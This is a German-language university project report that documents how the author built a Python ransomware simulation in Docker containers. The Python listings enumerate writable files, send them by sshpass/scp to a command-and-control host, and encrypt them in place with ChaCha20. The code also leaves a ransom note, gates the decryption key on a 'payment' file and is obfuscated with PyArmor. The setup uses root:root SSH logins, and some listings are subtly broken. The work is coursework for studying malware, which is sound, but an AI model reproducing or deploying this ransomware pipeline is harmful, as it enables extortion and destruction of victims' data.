% class definitions
\documentclass[12pt]{article}
\usepackage[ngerman,english]{babel}
\setlength{\parindent}{0em} 

% Packages

\usepackage[utf8]{inputenc}
\usepackage[ngerman]{babel}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{blt}
\usepackage{lmodern}
\usepackage{tabto}
\usepackage{listings}
\usepackage{quoting} %
\usepackage{lipsum}
\usepackage[left, pagewise, edtable]{lineno}
\quotingsetup{font={itshape}, leftmargin=2em, rightmargin=0in, vskip=1ex}
\usepackage{framed} 
\usepackage{xcolor}
\usepackage{tcolorbox}
\usepackage{xcolor} 
\colorlet{shadecolor}{gray!25}
\definecolor{mshadecolor}{rgb}{0.7421875,0.7421875,0.7421875}


%bibtext


% Front page

\title{\small{WPM}\\\vspace{3mm}\Large{Advances Reverse Engineering\\\small{Projektdokumentation}}}
\author{ \small{verfasst von}\\ Moritz Rupp}
\date{Sommersemester 2023}

%Document start 
\begin{document}



\maketitle
\newpage
\tableofcontents
\newpage

\begin{abstract}
\noindent In dem Modul 'Advanced Reverse Engineering' ist es Aufgabe eine Randsomware mithilfe der Salsa20 Cipher zu entwickeln. Dabei soll eine Client-Server Infrastruktur bereitsgestellt werden, mit derer die Schadware gesteuert werden kann. Die Software wird in Python entwickelt und für Linux-Systeme ausführbar gemacht.
\end{abstract}
\section{Einführung}
Ransomware, oder auch Verschlüsselungstrojaner genannt, ist eine Malware, die das Ziel hat, den Zugriff auf bestimmte Dateien oder das gesamte Computersystem  zu verschlüsseln und anschließend Lösegeld von den Opfern zu erpressen. Dafür wird ein System mit der Schadware infiziert und anschließend anhand von starken kryptografischen Algorithmen verschlüsselt. Dadurch werden Dateien und Programme unbrauchbar gemacht. Möchte das Opfer sein System wieder entschlüsselt benötigt es den kryptografischen Schlüssel des Angreifers. Dieser wird nur gegen eine Lösegeldzahlung, meist in Form von Kryptowährungen wie Bitcoin bereitsgestellt. 
\newline


Ziel dieses Projektes ist zum einen die Implementierung der notwendigen Infrastruktur, in Form eines Client-Server Models, sowie die Erstellung der Randsomware anhand der Programmiersprache Python.
Für die eigentlich Schadaktion der Dateiverschlüsselung wird die ChaCha20 Cipher verwendet. Diese ist eine Modifikation bzw. Optimierung von Salsa20.
Zudem sollen Maßnahmen implementiert werden, die dass Analysieren der Schadware erschweren. Dafür werden Methoden der Code Obfuskation verwendet.\\
Dieses Dokument beleuchtet die Umsetzung und Implementierung der einzelnen Schritte.

\newpage
\section{Infrastruktur}
\subsection{Victim-Server}
	Auf dem Opfer-Server soll der eigentliche Randsomware Angriff stattfinden. Um diesen bereitzustellen könnten Virtuelle Maschienen verwendet werden. Diese sind jedoch sehr schwergewichtig und umständlich einzurichten.
	Daher wurde sich für eine Implementierung in einem Docker Container entschieden.
	Container sind eine leichtgewichtige Art von Virtualisierung auf Betriebssystemebene[1]. Dies kann genutzt werden um eine Anwendung mitsamt ihren Abhängigkeiten als eine abgeschlossene Einheit zu verpacken und zu betreiben. Dies bietet Vorteile wie Plattformunabhängigkeit und einfache Ausfürbarkeit. In diesem Fall wird ein Ubuntu Container mit einiger vorinstallierter Software wie SSH und Python aufgesetzt.\\
	Das Packet aus Anwendung und Abhängigkeiten
	nennt man auch Container-Image[2]. Dies kann anhand des Dockerfiles erzeugt werden. Das Dockerfile enthält alle Instruktionen die zur Erstellung des Images benötigt werden.  
	\begin{figure}[h]
	\caption{Dockerfile des Victim Server}
	\begin{lstlisting}[language=python, style=code]
	FROM ubuntu:latest
	RUN apt update && apt upgrade -y 
	RUN apt install  openssh-server -y
	RUN apt install sshpass -y
	RUN apt install python3-pip -y 
	RUN apt install net-tools -y 
	RUN pip install cryptography paramiko
	RUN echo "PermitRootLogin yes">etc/ssh/sshd_config
	RUN  echo 'root:root' | chpasswd
	RUN service ssh start
	EXPOSE 22
	WORKDIR /
	COPY kenndaten.py randsomware.py Passwords.txt testdaten.txt /
	COPY encryptme /encryptme
	
	CMD ["/usr/sbin/sshd", "-D"]
		\end{lstlisting}
		
		\end{figure}
\newpage
Ein Container wird stets auf einem Base Image aufgebaut. Dieses dient als Fundament für alle folge Instruktionen und enthält je nach Image ein grundlegendes Dateisystem sowie vorinstallierte Software.\\
In Zeile 1(vgl. Figure 1) wird als Base Image Ubuntu deklariert. 
Anschließend werden verschiedene Dienste wie openssh, pip sowie einige Abhängiggkeiten installiert.
In Zeile 9 wird das root Passwort für die Schnittstelle des Webservers bzw. Containers festgelegt. Anschließend wird der Service SSH gestartet(vgl. zeile 10). Über diesen wird der Angriff seitens des Command\&Control\-Servers gesteuert. Zudem wird der Port 22 geöffnet, über den SSH kommuniziert. In Zeile 13 und 14 wird die eigentliche randsomware sowie einige Testdaten in den Container kopiert. In Zeile 16 wird der SSH Dienst über den Standartbefehl gestartet. \\
Aus diesem Dockerfile kann nun mit \colorbox{mshadecolor}{\parbox{0.31\textwidth}{Docker build -t victim .}} ein Image erstellt werden. Alternativ kann das kompilierte Image auch über Dockerhub mit \colorbox{mshadecolor}{\parbox{0.61\textwidth}{Docker pull mauriceKalevra/randsomware-sim}} geladen werden. Dieses kann nun mit \colorbox{mshadecolor}{\parbox{0.36\textwidth}{Docker run -p 22:22 victim}} gestartet werden. Nun läuft der Victim Server. Auf diesen kann man sich entweder über die Admin Schnittstelle  \colorbox{mshadecolor}{\parbox{0.26\textwidth}{ssh root@173.17.0.2}} schalten, oder eine Docker-Shell erzeugen. Dies ermöglicht  den Zugriff auf das Dateisystem, die Ausführung von Befehlen und die Interaktion mit der Anwendung oder dem System im Container. Eine Docker-Shell ist mit \colorbox{mshadecolor}{\parbox{0.51\textwidth}{docker exec -it ef89e257cb8a /bin/bash}} zu erzeugen. 
\begin{center}
 
\includegraphics[scale=0.5]{victimS.png}
\end{center}
Auf dem Filesystem des Victim Servers sind die im Dockerfile deklarierten Testfiles, sowie die Randsomware zu sehen. Ein Blick in das Netzwerkinterface zeigt die anzugreifende IP des Victim Servers.
\begin{center}
 \includegraphics[scale=0.3]{victimIp.png}
\end{center}
\newpage
\subsection{Command and Control Server}
Auf dem Command\&Control-Server soll der Randsomwareangriff gesteuert werden. Dies wird anhand von SSH bewerkstelligt. Des weiteren ist der Schlüssel für die Randsomware auf dem C\&C-server zu erzeugen. Dafür benötigt dieser die nahezu identische Konfiguration wie der Victim-Server.
\begin{figure}[h]
\caption{Dockerfile des C\&C-Server}
\begin{lstlisting}[language=python, style=code]
FROM ubuntu:latest
RUN apt update && apt upgrade -y 
RUN apt install  openssh-server -y
RUN apt install sshpass -y
RUN apt install python3-pip -y 
RUN apt install net-tools -y 
RUN pip install cryptography paramiko
RUN echo "PermitRootLogin yes">etc/ssh/sshd_config
RUN  echo 'root:root' | chpasswd
RUN service ssh start
EXPOSE 22
WORKDIR /
COPY control-agent.py decrypt.py 

CMD ["/usr/sbin/sshd", "-D"]
\end{lstlisting}

\end{figure}

Der C\&C-Server installiert die gleichen Abhängikeiten und Services wie der Victim-Server. In Zeile 13 wird zudem der Control-Agent sowie die Entschlüsselungs Software hinzugefügt. Nachdem auch dieses Image gebaut wurde, können beide Container gestartet werden und der Randsomwareangriff simuliert werden.
\begin{center}
 \includegraphics[scale=0.3]{CIp.png}
\end{center}
Das Netzwerkinterface des C\&C-Servers.
\newpage
\section{Randsomware}

Da laut Aufgabenstellung nicht anders beschrieben, wird davon ausgegangen das die Randsomware bereits auf dem Opfer-Server vorhanden ist. In Realität müsste über ein vorrigen Angriff wie Phishing, oder Brute-Forcing ein Weg gefunden werden, die Schwadware auf den Opfer Rechner zu laden.
\subsection{Auslesen von Kenndaten}
Im ersten Schritt, soll die Schadware Kenndaten des Opfers auslesen und diese an den C\&C-Server übermitteln. Dies wird mit der Funktion 'find\_editable\_files' realisiert.

\begin{figure}[h]
\caption{Python-Funktion zum auslesen der Kenndaten}
\begin{lstlisting}[language=python, style=code]
import os
import paramiko
def find_editable_files(directory):
editable_files = []
daten = open("kenndaten.txt","a")
for root, dirs, files in os.walk(directory):
	for file in files:
		file_path = os.path.join(root, file)
		#check if file is writeable
		if os.access(file_path, os.W_OK):
			editable_files.append(file_path)
			daten.write(file_path+"\n")
			return editable_files
			
find = find_editable_files("/")
#Passwort und IP eigentlich base64 codiert
ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no kenndaten.txt "+ "root"+"@172.17.0.2:/root/../"
os.system(ostring)
\end{lstlisting}

\end{figure}
Eine leere Liste namens editable\_files wird erstellt, um die Pfade der editierbaren Dateien zu speichern(vgl. Zeile 4). Eine Datei namens "kenndaten.txt" wird im Anhänge-Modus geöffnet. Der Datei-Handle wird der Variablen daten zugewiesen. Dies ermöglicht das Schreiben der gefundenen Dateipfade in diese Textdatei.
Der Befehl os.walk(directory) wird nun verwendet, um rekursiv durch das angegebene Verzeichnis und seine Unterverzeichnisse zu gehen(vgl. Zeile 6). Es werden drei Variablen zurückgegeben: root (aktuelles Verzeichnis), dirs (Unterverzeichnisse) und files (Dateien im aktuellen Verzeichnis).
Mit der Funktion os.access(file\_path, os.W\_OK) wird überprüft, ob die Datei beschreibbar ist(vgl. Zeile 9). Wenn die Datei beschreibbar ist, wird der Dateipfad zur Liste editable\_files hinzugefügt.
Abschließend wird die Funktion mit dem Pfad '/' aufgerufen und die ermittelten Kenndaten an den C\&C-Server verschickt.
\subsection{Schlüsselerzeugung}
Nachdem sich der Client bei dem C\&C-Server angemeldet und die Kenndaten übergeben hat, wird auf diesem der Schlüssel erzeugt und an den Victim-Server zurückgeschickt. Dies bewerkstelligt die Funktion 'wait\_for\_file'(vgl. Figure 4). Diese wartet bis die Kenndaten übergeben wurden und generiert anschließend den Schlüssel.\\
Hierbei wird start\_time wird auf den aktuellen Zeitpunkt gesetzt, um die Zeitmessung zu starten(Z. 2).
Anschließend wird eine Schleife ausgeführt, solange die Datei nicht vorhanden ist (not os.path.exists(file\_path))(Z.3).
Falls die Datei noch nicht gefunden wurde und der Timeout noch nicht erreicht ist, wird die Funktion für 1 Sekunde angehalten (time.sleep(1)), bevor erneut überprüft wird, ob die Datei vorhanden ist.

Sobald die Datei gefunden wurde, wird eine Meldung mit dem Dateipfad ausgegeben. Nun wird ein 256-Bit-Schlüssel anhand des 'secrets' Moduls erzeugt und in die Datei 'chkey.txt' geschrieben(Z. 14-15). Das ganze wird durch print-ausgaben beschrieben. Anschließend wird der Schlüssel sowie die Entschlüsselung dem Victim-Server zugesendet(Z. 23-26).\\ Abschließend wird der eigentliche Verschlüsselungstrojaner gestartet(Z.29). Der C\&C-Server wartet nun auf die Bezahlung des Opfers.

\begin{figure}
\caption{Python-Funktion zur Erzeugung des Schlüssels}
\begin{lstlisting}[language=python, style=code]
def wait_for_file(file_path, timeout=60):
start_time = time.time()
while not os.path.exists(file_path):
	if time.time() - start_time >= timeout:
		print("Timeout: Datei wurde nicht gefunden.")
		return False
		time.sleep(1)  # Warten Sie 1 Sekunde, bevor Sie erneut ueberpruefen
		
		print("Datei gefunden:", file_path)
		print("erzeuge schluessel")
		time.sleep(3)
		print("---------")
		
		key = secrets.token_bytes(32) # Erzeuge einen zufaelligen 256-Bit-Schluessel
		#key = os.urandom(32)  
		
		with open("chkey.txt", "wb") as keyfile:
		keyfile.write(key)
		
		print("schluessel erzeugt")
		time.sleep(3)
		print("sende schluessel")
		ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no chkey.txt "+ "root"+"@172.17.0.3:/root/../"
		os.system(ostring)
		
		#ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no decrypt.txt "+ "root"+"@172.17.0.3:/root"
		time.sleep(5)
		print("Fuehre verschluesselung durch")
		ExecMalware()
		print("Filesystem encrypted, waiting for payment")
\end{lstlisting}			
\end{figure}

\newpage



\subsection{Dateiverschlüsselung}
Die eigentliche Dateiverschlüsselung findet auf dem Victim-Server statt. Dieser hat nun den Schlüssel durch den C\&C-Server enthalten und kann die vorher ermittelten Kenndaten verschlüsseln.\\
Als Verschlüsselungsverfahren wurde ChaCha20 gewählt. Dies ist eine Modifikation von Salsa20 und bietet einige Optimierungen die zu mehr Diffusion und Performance führen[3]. 
Konkret ist ChaCha20 ein symmetrischer Stromchiffre-Algorithmus, der in erster Linie für die Verschlüsselung und Authentifizierung von Daten in kryptografischen Anwendungen verwendet wird. Er wurde von Daniel J. Bernstein entwickelt und zeichnet sich durch hohe Geschwindigkeit, Sicherheit und Effizienz aus.[4]

Der ChaCha20-Algorithmus basiert auf dem Add-Rotate-XOR Prinzip und verwendet einen 256-Bit-Schlüssel, einen 64-Bit-Initialisierungsvektor und einen Zählerwert, um einen Stromschlüssel zu erzeugen. Dieser Stromschlüssel wird dann zur Verschlüsselung der Daten verwendet.[5]

ChaCha20 bietet eine hohe Sicherheit gegen verschiedene Angriffsmethoden wie Brute-Force-Angriffe und bekannte Chiffretextangriffe. Zudem weist er gute Eigenschaften in Bezug auf die Verwundbarkeit gegenüber Kryptoanalyse auf, was ihn zu einer guten Wahl für eine Randsomware Malware macht.

Ein weiterer Vorteil von ChaCha20 ist seine Geschwindigkeit und Effizienz. Der Algorithmus ist so konzipiert, dass er auf modernen Hardwareplattformen, einschließlich Prozessoren und Mobilgeräten, schnell und effizient ausgeführt werden kann. Dies ist besonders wichtig in Umgebungen, in denen Echtzeitverarbeitung und geringe Latenzzeiten erforderlich sind.

ChaCha20 wird oft in Kombination mit dem Poly1305-Authentifizierungsverfahren verwendet, um sowohl die Vertraulichkeit als auch die Integrität der übertragenen Daten zu gewährleisten. Diese Kombination wird als "ChaCha20-Poly1305" bezeichnet und ist in vielen kryptografischen Protokollen und Implementierungen weit verbreitet.[6]

Insgesamt ist ChaCha20 ein zuverlässiger und effizienter Stromchiffre-Algorithmus, der in verschiedenen Anwendungen eingesetzt wird, einschließlich der Verschlüsselung von Netzwerkdaten, der sicheren Kommunikation und der Datenspeicherung.
\newpage
\begin{figure}[]
\caption{Python-Funktion }
\begin{lstlisting}[language=python, style=code]
def encrypt_file_chacha20(key, input_file, output_file):
	# Generiere einen zufaelligen Nonce
	nonce = os.urandom(16)

	# Erstellen einer ChaCha20Poly1305-Verschluesselungsinstanz mit dem Schluessel und Nonce
	cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend()).encryptor()

	# Lesen des Inhalts der Eingabedatei
	with open(input_file, 'rb') as file:
	plaintext = file.read()

	# Verschluesseln der Daten
	ciphertext = cipher.update(plaintext) + cipher.finalize()

	# Schreiben von Nonce und verschluesselten Daten in die Ausgabedatei
	with open(output_file, 'wb') as file:
	file.write(nonce + ciphertext)

	with open("chkey.txt","rb") as keyfile:
		key =  keyfile.read()

	with open("testdaten.txt", "r") as file:
		for line in file:
			line = line.rstrip("\n")
			encrypt_file_chacha20(key, line, line)
	
	readme = open("README","w")
	readme.write("Your System has been encrypted, please send a file called 'payment' with 1 to 172.17.0.3 : pw: root in order to receive the decryption key")
	#loesche keyfile
	os.remove("/chkey.txt")
		\end{lstlisting}			
		\end{figure}
		Die Funktion 'encrypt\_file\_chacha20' führt die eigentliche Verschlüsselung durch(vgl. Figure 5).
Zuerst wird ein zufälliger Nonce (Number used once) generiert. Der Nonce ist eine zufällige Zahl, die einmalig für jede Verschlüsselung verwendet wird. Der Nonce wird in diesem Fall mit os.urandom(16) erzeugt(vgl.Zeile 3).
Eine Instanz der ChaCha20Poly1305-Verschlüsselung wird mit dem Schlüssel und dem Nonce erstellt. Der Schlüssel wird als Parameter an die algorithms.ChaCha20-Klasse übergeben. Die Instanz wird als cipher bezeichnet(vgl. Zeile 6).
Der Inhalt der Eingabedatei wird gelesen und in plaintext gespeichert. Die Eingabedatei wird mit open(input\_file, 'rb') geöffnet, um sie im binären Modus zu lesen(vgl. Zeile 8).
Die Daten werden mit dem ChaCha20-Verschlüsselungsalgorithmus verschlüsselt(vgl. Zeile 13). Der cipher.update(plaintext)-Aufruf verschlüsselt den gesamten Inhalt der Datei und cipher.finalize() beendet den Verschlüsselungsvorgang. Das Ergebnis der Verschlüsselung wird in ciphertext gespeichert(vgl. Zeile 17).
Der restliche Teil des Codes öffnet die Datei "chkey.txt" im binären Modus, um den Schlüssel zu lesen. Anschließend wird die Datei "testdaten.txt" im Textmodus geöffnet und jede Zeile wird in der Schleife verarbeitet. Für jede Zeile wird die Funktion encrypt\_file\_chacha20 aufgerufen, um die entsprechende Datei mit dem gelesenen Schlüssel zu verschlüsseln.

Am Ende wird eine Datei "README" geöffnet und eine Nachricht geschrieben, die den Benutzer darüber informiert, dass das System verschlüsselt wurde und dass eine Zahlung erforderlich ist, um den Entschlüsselungsschlüssel zu erhalten. Schließlich wird die Datei "chkey.txt" gelöscht, um den Schlüssel zu entfernen.
\newpage
\subsection{Entschlüsselung}
\subsubsection{Bezahlung}
Für die Bezahlung wurde eine einfache Funktionalität implementiert. Der C\&C-Server schickt den Schlüssel für die Entschlüsselung erst, nachdem er eine Datei mit dem Namen 'payment' von seitens des Victim-Server erhalten hat. Dies wird mit der Funktion waiting\_for\_payment implementiert.
\begin{figure}[h]
 \caption{Python-Funktion die feststellt ob das Opfer bezahlt hat.}
 \begin{lstlisting}[language=python, style=code]
def wait_for_payment(file_path, timeout=60):
start_time = time.time()
while not os.path.exists(file_path):
	if time.time() - start_time >= timeout:
		print("Timeout: Datei wurde nicht gefunden.")
		return False
		time.sleep(1)  # Wartet 1 Sekunde, bevor erneut ueberprueft wird
		
		print("Datei gefunden:", file_path)
		print("Bezahlt")
		time.sleep(3)
		print("---------")
		print("Schicke Decryption + key")
		ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no chkey.txt "+ "root"+"@172.17.0.3:/root/../"
		os.system(ostring)
		print("key verschickt")
		ostring = "sshpass -p " + "root"  +  " scp -o StrictHostKeyChecking=no decrypt.py "+ "root"+"@172.17.0.3:/root/../"
		os.system(ostring)
		print("Decryption verschickt")
		
\end{lstlisting}

\end{figure}

Die Funktion prüft schlichtweg ob eine Datei namens 'payment' im Root Verzeichnis zu finden ist(vgl. Zeile 3). Wenn die Datei vorhanden ist, wird der vorher gespeicherte Schlüssel an den Victim-Server versendet(vgl. Zeile 14). 
\newpage
\section{Dateientschlüsselung}
Nachdem das Opfer gezahlt hat, wurde der schlüssel sowie die Entschlüsselungssoftware von seiten des C\&C-Servers verschickt. Die Funktion 'decrypt\_file\_chacha20' entschlüsselt die Dateien.
\begin{figure}[h]
\caption{Entschlüsselungsfunktion.}
\begin{lstlisting}[language=python, style=code]
def decrypt_file_chacha20(key, input_file, output_file):
	# Lesen des Inhalts der Eingabedatei
	with open(input_file, 'rb') as file:
	encrypted_data = file.read()

	# Extrahieren von Nonce und verschluesselten Daten aus der Datei
	nonce = encrypted_data[:16]
	ciphertext = encrypted_data[16:]

	# Erstellen einer ChaCha20Poly1305-Entschluesselungsinstanz mit dem Schluessel und Nonce
	cipher = Cipher(algorithms.ChaCha20(key, nonce), mode=None, backend=default_backend()).decryptor()

	# Entschluesseln der Daten
	plaintext = cipher.update(ciphertext) + cipher.finalize()

	# Schreiben der entschluesselten Daten in die Ausgabedatei
	with open(output_file, 'wb') as file:
	file.write(plaintext)

	with open("chkey.txt", "rb") as keyfile:
	key = keyfile.read()

	with open("testdaten.txt","r") as file:
	for line in file:
		line = line.rstrip("\n")
		decrypt_file_chacha20(key, line, line)
		
		\end{lstlisting}
		
		\end{figure}
\newpage

Der Ablauf gleicht der Verschlüsselungsfunktion. Zuerst wird der Inhalt der Eingabedatei gelesen und in encrypted\_data gespeichert. Die Eingabedatei wird mit open(input\_file, 'rb') im binären Modus geöffnet.

Der Nonce und die verschlüsselten Daten werden aus encrypted\_data extrahiert. Der Nonce hat eine Länge von 16 Bytes, und der Rest der Daten sind die verschlüsselten Daten.(vgl. Zeile 7-8)

Eine ChaCha20Poly1305-Entschlüsselungsinstanz wird mit dem Schlüssel und dem Nonce erstellt. Der Schlüssel und der Nonce werden als Parameter an die algorithms.ChaCha20-Klasse übergeben(vgl. Zeile 10). Die Instanz wird als cipher bezeichnet.
Die verschlüsselten Daten werden mit dem ChaCha20-Entschlüsselungsalgorithmus entschlüsselt(vlg. Zeile 14). Der cipher.update(ciphertext)-Aufruf entschlüsselt den gesamten Inhalt der Datei und cipher.finalize() beendet den Entschlüsselungsvorgang. Das Ergebnis wird in plaintext gespeichert.

Die entschlüsselten Daten werden in die Ausgabedatei geschrieben. Die Ausgabedatei wird mit open(output\_file, 'wb') im binären Modus geöffnet und mit file.write(plaintext) geschrieben(vgl. Zeile 20).
Der restliche Teil des Codes öffnet die Datei "chkey.txt" im binären Modus, um den Schlüssel zu lesen. Anschließend wird die Datei "testdaten.txt" im Textmodus geöffnet und jede Zeile wird in der Schleife verarbeitet. Für jede Zeile wird die Funktion decrypt\_file\_chacha20 aufgerufen, um die entsprechende Datei mit dem gelesenen Schlüssel zu entschlüsseln.
\subsection{Obfuskation}
Es wurden verschiedene Tools und Techniken zur Code-Obfuskation verwendet. In erster Linie allerdings Pyarmor. PyArmor ist ein Tool, das verwendet wird, um den Python-Code zu schützen und zu obfuskieren. Es bietet verschiedene Funktionen, um den Quellcode vor Reverse Engineering und unbefugtem Zugriff zu schützen. PyArmor kann den Python-Code obfuskieren, indem es Variablen- und Funktionsnamen ändert, irrelevante Anweisungen hinzufügt oder Code-Transformationen durchführt.
\begin{center}
 
\includegraphics[scale=0.4]{pyarmor.png}
\end{center}
Dies generiert ein Obfuskiertes Python-file von encrypt.py.
\newpage

\begin{center}
 
\includegraphics[scale=0.4]{obf.png}
\end{center}

\section{Fazit und Ausblick}
Das Projekt hat gezeigt das ein Randsomwareangriff recht einfach zu implementieren ist. Insbesondere in Python mithilfe von externen Biblotheken ist es relativ einfach ein Dateisystem zu verschlüsseln. Die größte Herausforderung solch einen Angriff zu realisieren, ist die Infrastruktur welche die Randsomware steuert.
Zukünftige Projektziele wären die sichere Speicherung und Übermittlung des Schlüssels, sowie eine richtige Steuerung der Malware anhand einer API Schnittstelle.
\newpage
\section{Quellen}
[1] Docker Engine overview, 20.06.2023, https://docs.docker.com/engine/

\vspace{4mm}


[2] Docker Hub, 18.06.2023, https://docs.docker.com/docker-hub/onboard-business/
\vspace{4mm}

[3] Crypotop, 18.06.2023 https://www.cryptopp.com/wiki/ChaCha20
\vspace{4mm}

[4] Crypotop, 18.06.2023 https://www.cryptopp.com/wiki/ChaCha20

\vspace{4mm}

[5] Crypotop, 19.06.2023 https://www.cryptopp.com/wiki/ChaCha20
\vspace{4mm}

[6] Paramiko, 16.05.2023, https://www.paramiko.org/

\textbf{Weitere Quellen}\\

Python dokumentation, 14.06.2023, https://docs.python.org/3.8/library/os.html\#os.system

Pyarmor, 24.06.2023, https://pyob.oxyry.com/

Vorlesungssript Advanced Reverse-Engineering
Teil 1\\
Autoren:
Prof. Dr. Martin Rieger

		\end{document}

 
